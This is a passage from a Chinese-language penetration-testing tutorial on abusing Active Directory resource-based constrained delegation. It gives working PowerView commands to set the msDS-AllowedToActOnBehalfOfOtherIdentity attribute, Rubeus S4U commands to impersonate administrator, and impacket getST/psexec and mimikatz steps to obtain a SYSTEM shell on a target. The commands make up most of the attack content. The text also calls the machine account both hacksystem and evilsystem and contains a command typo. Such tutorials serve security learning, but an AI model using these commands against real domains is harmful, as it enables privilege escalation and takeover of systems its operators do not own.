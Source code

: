 添加了一个密码 testObject，名为 hacksystem 的机器账户，接下来就是配置 hacksystem 到 WIN7 的委派了。我们需要做的，是修改 WIN7 的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性的值，这个操作我们用 powerview 实现。

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```powershell<br># 这里的 sid -> S-1-5-21-3298638106-3321833000-1571791979-1112<br># 是我们创建的 机器用户 evilsystem 的 sid，在 powerview 下用 <br>Get-Domiancomputer hacksystem<br># 获取<br><br>$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3298638106-3321833000-1571791979-1112)"<br><br>$SDBytes = New-Object byte[] ($SD.BinaryLength)<br><br>$SD.GetBinaryForm($SDBytes, 0)<br><br>Get-DomainComputer [目标主机名]\| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose<br>``` |

验证是否成功添加：

`Get-DomainComputer WIN7 -Properties msds-allowedtoactonbehalfofotheridentity`

配置完 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性之后就可以通过基于资源的约束委派去攻击目标主机了

#### [](#424-%E6%94%BB%E5%87%BB)4.2.4 攻击

攻击路径：user -> evil -> target

本地导出机器用户的 ntlm hash：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>Rubeus.exe hash /user:evilsystem /password:testObject /domain:xxx<br>``` |

然后用 `evilsystem$` 的 hash 请求白银票据并导入到当前会话中：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```bash<br>Rubeus.exe s4u /user:evilsystem$ /rc4:xxx /impersonateuser:administrator /msdsspn:cifs/dc /ptt<br><br>Rubeus.exe s4u /user:evilsystem$ /rc4:xxx /impersonateuser:administrator /msdsspn:host/dc /ptt<br>``` |

#### [](#425-%E6%B3%A8%E6%84%8F%E4%BA%8B%E9%A1%B9)4.2.5 注意事项

Rubeus 申请的票据和 impacket 申请的缓存票据有差别，测试时使用 Psexec 返回一个 shell 失败，需要再申请一个 HOST 票据。

impacket

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```bash<br>getST.py -dc-ip IP -spn cifs/target -impersonate administrator pentest.com/evilsystem$:evil<br><br>set KRB5CCNAME=administrator.ccache<br><br>python psexec.py -nopass -k target<br><br># 或者利用 mimikatz 导入票据<br>mimikatz.exe "privilege::debug" "kerberos::ptc administrator.ccache"<br>Psexec.exe \\target -s cmd<br>``` |

#### [](#426-%E8%A7%A3%E5%86%B3%E6%95%8F%E6%84%9F%E8%B4%A6%E6%88%B7%E4%B8%8D%E8%83%BD%E5%A7%94%E6%B4%BE)4.2.6 解决敏感账户不能委派

利用条件：知道目标的主机账户的凭证

**注：** 一般情况下主机在加入域中会随机设置主机账户的密码，所以一般情况下用的是主机账户 hash，并且不能修改主机账户的密码，否则该主机就会和域失去信任。

在域环境中，高权限用户如果没有特殊需求的情况下，考虑到安全性一般是设置为不可委派，或者是加入受保护组

在以 administrator 账户身份进行 S4U 时，只能进行 S4U2SELF，不能进行 S4U2PROXY。

用 `Rubeus.exe s4u /user:evilsystem$ /rc4:B1739F7FC8377E25C77CFA2DFBDC3EC7 /impersonateuser:administrator /msdsspn:cifs/target /ptt`继续实验 administrator，发现确实是这样
